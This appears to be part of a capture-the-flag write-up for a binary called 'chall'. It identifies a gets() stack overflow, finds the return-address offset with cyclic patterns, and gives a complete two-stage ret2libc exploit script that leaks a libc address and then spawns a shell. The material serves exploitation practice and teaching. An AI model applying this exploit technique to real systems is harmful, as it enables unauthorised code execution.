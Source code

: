 **2. Find vulnerability (buffer overflow in `gets()`):**
```c
// Decompiled:
void vuln() {
    char buffer[64];
    gets(buffer);  // Vulnerable!
    puts(buffer);
}
```

**3. Find offset to return address:**
```bash
# Generate cyclic pattern:
python3 -c 'from pwn import *; print(cyclic(200))' > pattern.txt

# Run in GDB:
gdb ./chall
run < pattern.txt
# Crash at RIP = 0x6161616b ("kaaa")

# Find offset:
python3 -c 'from pwn import *; print(cyclic_find(0x6161616b))'
# Offset: 72
```

**4. Develop exploit (ret2libc to bypass NX):**
```python
from pwn import *

# Addresses:
puts_plt = 0x400530      # puts@PLT
puts_got = 0x601018      # puts@GOT
pop_rdi = 0x4006d3       # pop rdi; ret gadget
ret = 0x4006d4           # ret gadget (for alignment)
main = 0x400626          # main function

# Stage 1: Leak libc address
payload = b"A" * 72
payload += p64(pop_rdi) + p64(puts_got)  # rdi = puts@GOT
payload += p64(puts_plt)                 # Call puts(puts@GOT) -> leak libc
payload += p64(main)                     # Return to main

p = process('./chall')
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc_base = leak - 0x809c0  # Offset to puts in libc
system = libc_base + 0x4f440
bin_sh = libc_base + 0x1b3e9a

# Stage 2: Call system("/bin/sh")
payload2 = b"A" * 72
payload2 += p64(ret)  # Stack alignment
payload2 += p64(pop_rdi) + p64(bin_sh)
payload2 += p64(system)

p.sendline(payload2)
p.interactive()  # Shell!
```
